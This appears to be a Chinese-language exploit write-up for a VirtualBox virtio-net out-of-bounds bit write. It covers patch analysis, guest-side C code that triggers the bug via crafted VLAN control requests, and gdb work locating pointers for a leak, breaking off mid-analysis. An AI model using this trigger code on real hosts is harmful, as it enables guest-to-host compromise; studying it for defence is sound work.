

# 漏洞信息

```text
Vulnerability in the Oracle VM VirtualBox product of Oracle Virtualization (component: Core). Supported versions that are affected are Prior to 7.0.12. Easily exploitable vulnerability allows high privileged attacker with logon to the infrastructure where Oracle VM VirtualBox executes to compromise Oracle VM VirtualBox. While the vulnerability is in Oracle VM VirtualBox, attacks may significantly impact additional products (scope change). Successful attacks of this vulnerability can result in takeover of Oracle VM VirtualBox. Note: Only applicable to 7.0.x platform.
```

参考：[Oracle VM VirtualBox: Intra-Object Out-Of-Bounds Write in virtioNetR3CtrlVlan](https://github.com/google/security-research/security/advisories/GHSA-q7p4-pxjx-6h42)

patch：[Changeset 100883 in vbox](https://www.virtualbox.org/changeset/100883/vbox)

# 漏洞分析

patch如下：



第一处patch在`virtioNetR3CtrlMultiQueue`，第二处、第三处patch在`virtioNetR3CtrlVlan`，第四处patch在`virtioNetR3Ctrl`。

前两处patch修补的漏洞点是：`virtioNetR3Ctrl()`在调用`virtioCoreR3VirtqBufDrain()`时已经将`pVirtqBuf->cbPhysSend`的值减去了`sizeof(CtrlPktHdr)`，所以这里`pVirtqBuf->cbPhysSend - sizeof(*pCtrlPktHdr)`重复计算了`CtrlPktHdr`的长度。

第三处patch修补的漏洞点是：在处理`VIRTIONET_CTRL_VLAN`请求时，从ctrlq读取16bit的`uVlanId`，由于`AssertMsgReturn(uVlanId > VIRTIONET_MAX_VLAN_ID)`抛出异常条件写反了，导致`uVlanId`必须为一个非法值（大于0x2000）才不会触发报错，且该值将作为`pThis->aVlanFilter`bitmap的索引，在`ASMBitSet/ASMBitClear`中可以越界修改1bit的值。

```c
static uint8_t virtioNetR3CtrlVlan(PVIRTIONET pThis, PVIRTIONET_CTRL_HDR_T pCtrlPktHdr, PVIRTQBUF pVirtqBuf)
{
    LogFunc(("[%s] Processing CTRL VLAN command\n", pThis->szInst));

    uint16_t uVlanId;
    size_t cbRemaining = pVirtqBuf->cbPhysSend - sizeof(*pCtrlPktHdr);

    AssertMsgReturn(cbRemaining > sizeof(uVlanId),
        ("DESC chain too small for VIRTIONET_CTRL_VLAN cmd processing"), VIRTIONET_ERROR);

    /* Fetch VLAN ID from guest buffer */
    virtioCoreR3VirtqBufDrain(&pThis->Virtio, pVirtqBuf, &uVlanId, sizeof(uVlanId));

    AssertMsgReturn(uVlanId > VIRTIONET_MAX_VLAN_ID,
        ("%s VLAN ID out of range (VLAN ID=%u)\n", pThis->szInst, uVlanId), VIRTIONET_ERROR);

    LogFunc(("[%s] uCommand=%u VLAN ID=%u\n", pThis->szInst, pCtrlPktHdr->uCmd, uVlanId));

    switch (pCtrlPktHdr->uCmd)
    {
        case VIRTIONET_CTRL_VLAN_ADD:
            ASMBitSet(pThis->aVlanFilter, uVlanId);
            break;
        case VIRTIONET_CTRL_VLAN_DEL:
            ASMBitClear(pThis->aVlanFilter, uVlanId);
            break;
        default:
            LogRelFunc(("Unrecognized VLAN subcommand in CTRL pkt from guest\n"));
            return VIRTIONET_ERROR;
    }
    return VIRTIONET_OK;
}

RTDECL(void) ASMBitSet(volatile void *pvBitmap, int32_t iBit)
{
    uint8_t volatile *pau8Bitmap = (uint8_t volatile *)pvBitmap;
    pau8Bitmap[iBit / 8] |= (uint8_t)RT_BIT_32(iBit & 7);
}
```


# virtio-net

参考：[**Virtual I/O Device (VIRTIO) Version 1.1** - 5.1 Network Device](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-1940001)

## 队列结构

```text
0
receiveq1
1
transmitq1
…
2(N-1)
receiveqN
2(N-1)+1
transmitqN
2N
controlq
N=1 if VIRTIO_NET_F_MQ is not negotiated, otherwise N is set by max_virtqueue_pairs.

controlq only exists if VIRTIO_NET_F_CTRL_VQ set.
```

## 初始化

```c {hide=true}
#define VIRTIO_NET_GVA  0xcafe000
#define VIRTIO_NET_GPA  0xf0806000
#define VIRTIO_NET_SIZE 0x2000

volatile uint8_t *virtio_mmio = NULL,
                 *virtio_notify_mmio = NULL,
                 *virtio_notify_addr = NULL;
volatile uint8_t *data_mem = NULL;

volatile struct virtio_pci_common_cfg *common_cfg = NULL;
volatile struct virtio_pci_notify_cap *notify_cap = NULL;
volatile struct virtio_net_config     *net_cfg    = NULL;

#define VIRTIO_QUEUE_SIZE           0x10
/* VIRTIO_NET_F_MRG_RXBUF is not negotiated, buffers of at least 1526 bytes. */
#define VIRTIO_NET_RECVQ_BUF_SIZE   2048
#define recvq_buf(_i)               (recvq_mem + VIRTIO_NET_RECVQ_BUF_SIZE*_i)
volatile uint8_t *vq_mem = NULL,
                 *recvq_mem = NULL;
volatile struct virtqueues vqs;
size_t avail_idx = 0;

#define isBitSet(num, _i)   (num & (1 << _i))

#define mmio_write64(addr, val)     (*(uint64_t *)(addr)=val)
#define mmio_write32(addr, val)     (*(uint32_t *)(addr)=val)
#define mmio_write16(addr, val)     (*(uint16_t *)(addr)=val)
#define mmio_write8(addr, val)      (*(uint8_t *)(addr)=val)
#define mmio_read64(addr)           (*(uint64_t *)(addr))
#define mmio_read32(addr)           (*(uint32_t *)(addr))
#define mmio_read16(addr)           (*(uint16_t *)(addr))
#define mmio_read8(addr)            (*(uint8_t *)(addr))

void *mmio_init(void *fixed, size_t size, const char *file) {
    void *mem = NULL;

    int mmio_fd = open(file, O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    mem = mmap(fixed, size, PROT_READ|PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mem == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(mem, size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }

    close(mmio_fd);
    return mem;
}

void print_cap(struct virtio_pci_cap* cap){
    puts("=====================================");
    switch(cap->cfg_type){
        case VIRTIO_PCI_CAP_COMMON_CFG:
            printf("cfg_type: common\n");
            break;
        case VIRTIO_PCI_CAP_NOTIFY_CFG:
            printf("cfg_type: notify\n");
            break;
        case VIRTIO_PCI_CAP_ISR_CFG:
            printf("cfg_type: isr\n");
            break;
        case VIRTIO_PCI_CAP_DEVICE_CFG:
            printf("cfg_type: device\n");
            break;
        case VIRTIO_PCI_CAP_PCI_CFG:
            printf("cfg_type: pci\n");
            break;
        default:
            printf("cfg_type: unknown %d\n", cap->cfg_type);
            break;
    }
    printf("cap_len: %x\tbar: %x\toffset: %x\tlength: %x\n",
            cap->cap_len, cap->bar, cap->offset, cap->length);
}

void print_net_ctf(struct virtio_net_config *cfg) {
    char *fmt = \
"struct virtio_net_config {\n\
    u8 mac[6];\n\
    le16 status = %#04x;\n\
    le16 max_virtqueue_pairs = %#04x;\n\
    le16 mtu = %#04x;\n\
};\n";
    printf(fmt, cfg->status, cfg->max_virtqueue_pairs, cfg->mtu);
}

static inline void vring_init(struct vring *vr, unsigned int num, unsigned char *queue, uint16_t idx) {
   vr->num = num;
   vr->desc = (struct vring_desc * volatile)queue;
   vr->avail = (struct vring_avail * volatile)&vr->desc[num];
   vr->used = (struct vring_used * volatile)&vr->avail[1];
   printf("[*] init vring %p: desc %p, avail %p, used %p\n",
            vr, vr->desc, vr->avail, vr->used);

   mmio_write16(&common_cfg->queue_select, idx);
   mmio_write16(&common_cfg->queue_size, num);
   mmio_write32(&common_cfg->queue_desc_lo, gva_to_gpa(vr->desc));
   mmio_write32(&common_cfg->queue_avail_lo, gva_to_gpa(vr->avail));
   mmio_write32(&common_cfg->queue_used_lo, gva_to_gpa(vr->used));
   mmio_write16(&common_cfg->queue_enable, 1);
}

void init_virtio() {
    // init dma
    data_mem = mmap(0, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)data_mem, 0, PAGE_SIZE);
    printf("[*] data_mem: %p\n", data_mem);

    // init mmio
    virtio_mmio = mmio_init((void *)0, VIRTIO_NET_SIZE, "/sys/devices/pci0000:00/0000:00:08.0/resource2");
    printf("[*] virtio_mmio: %p\n", virtio_mmio);

    // init pmio
    if (iopl(3) == -1) {
        perror("[-] iopl failed");
        exit(EXIT_FAILURE);
    }

    struct virtio_pci_cap *cap = NULL;
    uint8_t *config = malloc(0x1000);
    int fd = open("/sys/devices/pci0000:00/0000:00:08.0/config", O_RDONLY);
    if(fd < 0){
        perror("[-] failed to open virtio-net config.");
    }
    int bytes_read = read(fd, config, 0x1000);
    if(bytes_read <= 0){
        perror("[-] failed to read virtio-net config.");
    }
    close(fd);

    uint8_t cap_ptr = config[0x34];
    while(cap_ptr != 0){
        if(config[cap_ptr] != 0x9) { // vndr
            cap_ptr = config[cap_ptr+1]; // next
            continue;
        }
        cap = (struct virtio_pci_cap *)&config[cap_ptr];
        //print_cap(cap);
        switch(cap->cfg_type){
            case VIRTIO_PCI_CAP_COMMON_CFG:
                common_cfg = (struct virtio_pci_common_cfg *)(virtio_mmio + cap->offset);
                printf("[*] common_cfg: %p\n", common_cfg);
                break;
            case VIRTIO_PCI_CAP_NOTIFY_CFG:
                virtio_notify_mmio = virtio_mmio + cap->offset;
                notify_cap = (struct virtio_pci_notify_cap *)virtio_notify_mmio;
                printf("[*] virtio_notify_mmio: %p\n", virtio_notify_mmio);
                break;
            case VIRTIO_PCI_CAP_DEVICE_CFG:
                net_cfg = (struct virtio_net_config *)(virtio_mmio + cap->offset);
                printf("[*] net_cfg: %p\n", net_cfg);
                //print_net_ctf(net_cfg);
        }
        cap_ptr = cap->cap_next;
    }
    free(config);
    config = NULL;

    uint32_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    virtio_notify_addr = virtio_notify_mmio + notify_off*VIRTIO_NOTIFY_OFFSET_MULTIPLIER;
  
    /* reset device */
    uint8_t device_status = 0;
    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    uint32_t feature = SetBit(VIRTIO_NET_F_CTRL_VQ)|SetBit(VIRTIO_NET_F_CTRL_VLAN);
    mmio_write32(&common_cfg->guest_feature_select, 0); // low 32 bit
    mmio_write32(&common_cfg->guest_feature, feature);
    mmio_write32(&common_cfg->guest_feature_select, 1); // high 32 bit
    mmio_write32(&common_cfg->guest_feature, 0);
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // 6. init virtqueues
    /*
        0
        receiveq1
        1
        transmitq1
        …
        2(N-1)
        receiveqN
        2(N-1)+1
        transmitqN
        2N
        controlq

        N=1 if VIRTIO_NET_F_MQ is not negotiated, otherwise N is set by max_virtqueue_pairs.
        controlq only exists if VIRTIO_NET_F_CTRL_VQ set.
    */

    vqs.N = mmio_read16(&net_cfg->max_virtqueue_pairs);
    printf("[*] vqs.N = %d\n", vqs.N);
    vqs.receiveq = calloc(vqs.N, sizeof(struct vring));
    vqs.transmitq = calloc(vqs.N, sizeof(struct vring));
    vqs.controlq = calloc(1, sizeof(struct vring));

    vq_mem = mmap(0, PAGE_SIZE*(vqs.N*2+1), PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)vq_mem, 0, PAGE_SIZE*(vqs.N*2+1));
    printf("[*] vq_mem: %p, size: %#x\n", vq_mem, PAGE_SIZE*(vqs.N*2+1));
    recvq_mem = mmap(0, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)recvq_mem, 0, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE);
    printf("[*] recvq_mem: %p, size: %#x\n", recvq_mem, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE);

    uint8_t *p_vq = (uint8_t *)vq_mem;
    for (size_t i = 0; i < vqs.N; i++) {
        vring_init(&vqs.receiveq[i], VIRTIO_QUEUE_SIZE, p_vq, 2*i);
        for (size_t j = 0; j < VIRTIO_QUEUE_SIZE; j++) {
            vqs.receiveq[i].desc[j].addr = gva_to_gpa((void *)recvq_buf(j));
            vqs.receiveq[i].desc[j].len = VIRTIO_NET_RECVQ_BUF_SIZE;
            vqs.receiveq[i].desc[j].flags = 0;
            vqs.receiveq[i].desc[j].next = (j+1)%VIRTIO_QUEUE_SIZE;
        }
        p_vq += PAGE_SIZE;

        vring_init(&vqs.transmitq[i], VIRTIO_QUEUE_SIZE, p_vq, 2*i+1);
        p_vq += PAGE_SIZE;
    }
    vring_init(vqs.controlq, VIRTIO_QUEUE_SIZE, p_vq, 2*vqs.N);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    printf("[*] virtio-net init done!\n");
}
```

## VIRTIO_NET_CTRL_VLAN请求

```c {hide=true}
void vrtio_net_ctrl_vlan_req(uint8_t command, uint16_t uVlanId) {
    struct virtio_net_ctrl_vlan *req = (struct virtio_net_ctrl_vlan *)(data_mem + 0x100*avail_idx);
    req->hdr.class = VIRTIO_NET_CTRL_VLAN;
    req->hdr.command = command;
    req->uVlanId = uVlanId;

    // struct virtio_net_ctrl_vlan
    vqs.controlq->desc[0].addr = gva_to_gpa(req);
    vqs.controlq->desc[0].len = sizeof(struct virtio_net_ctrl)+sizeof(struct virtio_net_ctrl_vlan)+1;
    vqs.controlq->desc[0].flags = VRING_DESC_F_NEXT;
    vqs.controlq->desc[0].next = 1;

    // u8 ack
    vqs.controlq->desc[1].addr = gva_to_gpa(req + sizeof(struct virtio_net_ctrl_vlan));
    vqs.controlq->desc[1].len = 1;
    vqs.controlq->desc[1].flags = VRING_DESC_F_WRITE;
    vqs.controlq->desc[1].next = 0;

    vqs.controlq->avail->ring[avail_idx] = 0;
    vqs.controlq->avail->idx = (avail_idx+1) % (VIRTIO_QUEUE_SIZE/2);
    vqs.controlq->avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    avail_idx = (avail_idx+1) % (VIRTIO_QUEUE_SIZE/2);
    __sync_synchronize();
    // notify
    mmio_write16(virtio_notify_addr, 2*vqs.N);
    sleep(0.5);
}
```


## 可能遇到的问题：VirtualBox virtio notify

一开始按照qemu的notify计算方法计算mmio的地址，但是一运行到这里就崩：

```c
    uint32_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    uint32_t notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier; // crash
    virtio_notify_addr = virtio_notify_mmio + notify_offset;
    mmio_write16(virtio_notify_addr, 0);
```

然后在宿主机`dmesg`才发现VirtualBox的`virtioMmioRead`里竟然对`notify_cap`没有读权限：

```bash
...
[13762.880389] 
               !!Assertion Failed!!
               Expression: guest-input: failed
               Location  : /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/Devices/VirtIO/VirtioCore.cpp(1994) VBOXSTRICTRC virtioMmioRead(PPDMDEVINS, void*, RTGCPHYS, void*, unsigned int)
[13762.880411] Bad read access to mapped capabilities region: off=0000000000000040 cb=4
```

但是`virtioMmioWrite`又可以写notify：

```c
    /* This *should* be guest driver dropping index of a new descriptor in avail ring */
    if (MATCHES_VIRTIO_CAP_STRUCT(off, cb, uOffset, pVirtio->LocNotifyCap) && cb == sizeof(uint16_t))
    {
        virtioCoreVirtqNotified(pDevIns, pVirtio, uOffset / VIRTIO_NOTIFY_OFFSET_MULTIPLIER, *(uint16_t *)pv);
        STAM_PROFILE_ADV_STOP(&pVirtio->CTX_SUFF(StatWrite), a);
        return VINF_SUCCESS;
    }
```

调试可以看到：

```gdb
pwndbg> p /x pVirtio->LocNotifyCap
$4 = {
  offMmio = 0x38,
  cbMmio = 0x32,
  offPci = 0x50,
  cbPci = 0x14
}
```

那么：

```c
common_cfg->queue_notify_off == 2;
notify_cap->notify_off_multiplier == 2;
notify_offset = offMmio + common_cfg->queue_notify_off*notify_cap->notify_off_multiplier
              = 0x38 + 4 = 0x3c;
```

所以我们直接往`virtio_notify_mmio + 0x3c`的地方写值试试，还真就可以了。

**看来VirtualBox对于notify的实现和qemu的稍微有点区别。**


# 利用过程

## leak

触发漏洞后，我们要想办法泄露一些地址出来，从`pThis->aVlanFilter+0x400`开始往后找（因为`uVlanId>0x2000`，所以要从`pThis->aVlanFilter+0x2000/8`开始），可以找到`virtioR3PciConfigRead`和`virtioR3PciConfigWrite`指针：

```gdb
pwndbg> tele pThis->aVlanFilter+0x1000-4
00:0000│  0x7fa87624a0a0 ◂— 0x100000000
01:0008│  0x7fa87624a0a8 ◂— 0x1000400000000
...
4f:0278│  0x7fa87624a318 —▸ 0x7fa8905d3df7 (virtioR3PciConfigRead(PDMDEVINSR3*, PDMPCIDEV*, unsigned int, unsigned int, unsigned int*)) ◂— endbr64 
pwndbg> 
50:0280│  0x7fa87624a320 —▸ 0x7fa8905d40c8 (virtioR3PciConfigWrite(PDMDEVINSR3*, PDMPCIDEV*, unsigned int, unsigned int, unsigned int)) ◂— endbr64
```

不确定是什么结构体里的函数指针，所以gdb里直接暴力改值，然后再把前面的exp运行一遍，很幸运地触发了崩溃：

```gdb
pwndbg> set *(uint64_t *)0x7fa87624a318=0xdeadbeef
...
pwndbg> bt
#0  0x00000000deadbeef in ?? ()
#1  0x00007fa8902b2fe3 in pci_data_read (pGlobals=0x7fa8c402f2c0, addr=0, cb=4, pu32Value=0x7fa8b4147578) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/Devices/Bus/DevPCI.cpp:216
#2  0x00007fa8902b5431 in pciIOPortDataRead (pDevIns=0x7fa8c402f000, pvUser=0x0, offPort=0, pu32=0x7fa8b4147578, cb=4) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/Devices/Bus/DevPCI.cpp:893
#3  0x00007fa8b62fb9c4 in IOMIOPortRead (pVM=0x7fa893e60000, pVCpu=0x7fa8b418c000, Port=3324, pu32Value=0x7fa8b4147578, cbValue=4) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMAll/IOMAll.cpp:127
#4  0x00007fa8b5fc209e in emR3ExecutePendingIoPortRead (pVM=0x7fa893e60000, pVCpu=0x7fa8b418c000) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMR3/EM.cpp:773
#5  0x00007fa8b5fccd8e in emR3HmHandleRC (pVM=0x7fa893e60000, pVCpu=0x7fa8b418c000, rc=1159) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/include/EMHandleRCTmpl.h:122
#6  0x00007fa8b5fcee06 in emR3HmExecute (pVM=0x7fa893e60000, pVCpu=0x7fa8b418c000, pfFFDone=0x7fa8b4147733) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMR3/EMHM.cpp:455
#7  0x00007fa8b5fca85c in EMR3ExecuteVM (pVM=0x7fa893e60000, pVCpu=0x7fa8b418c000) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMR3/EM.cpp:2547
#8  0x00007fa8b6127a8f in vmR3EmulationThreadWithId (hThreadSelf=0x7fa8980095c0, pUVCpu=0x7fa8b42d0fa0, idCpu=1) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMR3/VMEmt.cpp:248
#9  0x00007fa8b6126f7c in vmR3EmulationThread (hThreadSelf=0x7fa8980095c0, pvArgs=0x7fa8b42d0fa0) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/VMM/VMMR3/VMEmt.cpp:70
#10 0x00007fa8d946a9b7 in rtThreadMain (pThread=0x7fa8980095c0, NativeThread=140362552477440, pszThreadName=0x7fa898009ea0 "EMT-1") at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/Runtime/common/misc/thread.cpp:745
#11 0x00007fa8d95e7f07 in rtThreadNativeMain (pvArgs=0x7fa8980095c0) at /home/ctf/Desktop/VirtualBox-7.0.10/src/VBox/Runtime/r3/posix/thread-posix.cpp:430
#12 0x00007fa8d754b609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#13 0x00007fa8d7823353 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

通过栈回溯信息再结合源码可知，两个函数指针所在为`pPciDev->Int.s`（`PDMPCIDEVINT`类型结构体）：

```gdb {hide=true}
pwndbg> ptype PDMPCIDEVINT
type = struct PDMPCIDEVINT {
    PPDMDEVINSR3 pDevInsR3;
    uint8_t idxDevCfg;
    bool fReassignableDevNo;
    bool fReassignableFunNo;
    uint8_t bPadding0;
    uint8_t idxPdmBus;
    bool fRegistered;
    uint16_t idxSubDev;
    struct DEVPCIBUS *pBusR3;
    PFNPCICONFIGREAD pfnConfigRead;
    PFNPCICONFIGWRITE pfnConfigWrite;
    PFNPCIBRIDGECONFIGREAD pfnBridgeConfigRead;
    PFNPCIBRIDGECONFIGWRITE pfnBridgeConfigWrite;
    uint32_t fFlags;
    int32_t uIrqPinState;
    uint8_t u8MsiCapOffset;
    uint8_t u8MsiCapSize;
    uint8_t u8MsixCapOffset;
    uint8_t u8MsixCapSize;
    uint16_t cbMsixRegion;
    uint16_t offMsixPba;
    uint8_t abPadding2[8];
    IOMMMIOHANDLE hMmioMsix;
    const void *pvPciBusPtrR3;
    PCIIOREGION aIORegions[7];
}
pwndbg> p &((PDMPCIDEVINT *)0)->pfnConfigRead
$3 = (PFNPCICONFIGREAD *) 0x18
pwndbg> p *(PDMPCIDEVINT *)(0x7fa87624a318-0x18)
$4 = {
  pDevInsR3 = 0x7fa876248000,
  idxDevCfg = 0 '\000',
  fReassignableDevNo = true,
  fReassignableFunNo = false,
  bPadding0 = 0 '\000',
  idxPdmBus = 0 '\000',
  fRegistered = true,
  idxSubDev = 0,
  pBusR3 = 0x7fa8c402f2c0,
  pfnConfigRead = 0xdeadbeef,
  pfnConfigWrite = 0x7fa8905d40c8 <virtioR3PciConfigWrite(PPDMDEVINS, PPDMPCIDEV, uint32_t, unsigned int, uint32_t)>,
  ...
```

想要泄露肯定要找到调用`virtioMmioRead`的地方，`virtioR3PciConfigRead`内就有一处，跟进分析`virtioMmioRead`能够找到一条可能可以用来泄露的路径：

```c {hide=true}
static DECLCALLBACK(VBOXSTRICTRC) virtioR3PciConfigRead(PPDMDEVINS pDevIns, PPDMPCIDEV pPciDev,
                                                        uint32_t uAddress, unsigned cb, uint32_t *pu32Value)
{
    PVIRTIOCORE   pVirtio   = PDMINS_2_DATA(pDevIns, PVIRTIOCORE); // <--- pDevIns->pvInstanceDataR3
    PVIRTIOCORECC pVirtioCC = PDMINS_2_DATA_CC(pDevIns, PVIRTIOCORECC); // <--- &pDevIns->achInstanceData
    RT_NOREF(pPciDev);

    if (uAddress == pVirtio->uPciCfgDataOff) // <--- 【1】
    {
     /* See comments in PCI Cfg capability initialization (in capabilities setup section of this code) */
        struct virtio_pci_cap *pPciCap = &pVirtioCC->pPciCfgCap->pciCap;
        uint32_t uLength = pPciCap->uLength; // <--- 【2】

        Log7Func((" pDevIns=%p pPciDev=%p uAddress=%#x%s cb=%u uLength=%d, bar=%d\n",
                     pDevIns, pPciDev, uAddress,  uAddress < 0x10 ? " " : "", cb, uLength, pPciCap->uBar));

        if (  (uLength != 1 && uLength != 2 && uLength != 4)
            || pPciCap->uBar != VIRTIO_REGION_PCI_CAP)
        {
            ASSERT_GUEST_MSG_FAILED(("Guest read virtio_pci_cfg_cap.pci_cfg_data using mismatching config. "
                                     "Ignoring\n"));
            *pu32Value = UINT32_MAX;
            return VINF_SUCCESS;
        }

        VBOXSTRICTRC rcStrict = virtioMmioRead(pDevIns, pVirtio, pPciCap->uOffset, pu32Value, cb); // ---> 【3】
        Log7Func((" Guest read virtio_pci_cfg_cap.pci_cfg_data, bar=%d, offset=%d, length=%d, result=0x%x -> %Rrc\n",
                   pPciCap->uBar, pPciCap->uOffset, uLength, *pu32Value, VBOXSTRICTRC_VAL(rcStrict)));
        return rcStrict;
    }
    Log7Func((" pDevIns=%p pPciDev=%p uAddress=%#x%s cb=%u pu32Value=%p\n",
                 pDevIns, pPciDev, uAddress,  uAddress < 0x10 ? " " : "", cb, pu32Value));
    return VINF_PDM_PCI_DO_DEFAULT;
}

static DECLCALLBACK(VBOXSTRICTRC) virtioMmioRead(PPDMDEVINS pDevIns, void *pvUser, RTGCPHYS off, void *pv, unsigned cb)
{
    PVIRTIOCORE   pVirtio   = PDMINS_2_DATA(pDevIns, PVIRTIOCORE);
    PVIRTIOCORECC pVirtioCC = PDMINS_2_DATA_CC(pDevIns, PVIRTIOCORECC);
    AssertReturn(cb == 1 || cb == 2 || cb == 4, VERR_INVALID_PARAMETER);
    Assert(pVirtio == (PVIRTIOCORE)pvUser); RT_NOREF(pvUser);
    STAM_PROFILE_ADV_START(&pVirtio->CTX_SUFF(StatRead), a);


    uint32_t uOffset;
    if (MATCHES_VIRTIO_CAP_STRUCT(off, cb, uOffset, pVirtio->LocDeviceCap))
    {
      ...
    }

    if (MATCHES_VIRTIO_CAP_STRUCT(off, cb, uOffset, pVirtio->LocCommonCfgCap)) // <--- 【4】
        return virtioCommonCfgAccessed(pDevIns, pVirtio, pVirtioCC, false /* fWrite */, uOffset, cb, pv); // --->
    ...
}

static int virtioCommonCfgAccessed(PPDMDEVINS pDevIns, PVIRTIOCORE pVirtio, PVIRTIOCORECC pVirtioCC,
                                   int fWrite, uint32_t uOffsetOfAccess, unsigned cb, void *pv)
{
    uint16_t uVirtq = pVirtio->uVirtqSelect; // <--- 【5】
    int rc = VINF_SUCCESS;
    uint64_t val;
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(uDeviceFeatures, VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
    ....
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uMsixConfig,                VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS(         uMsixConfig,                VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uDeviceFeaturesSelect,      VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS(         uDeviceFeaturesSelect,      VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uDriverFeaturesSelect,      VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS(         uDriverFeaturesSelect,      VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uConfigGeneration,          VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS(         uConfigGeneration,          VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio);
    ...
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   GCPhysVirtqDesc,            VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
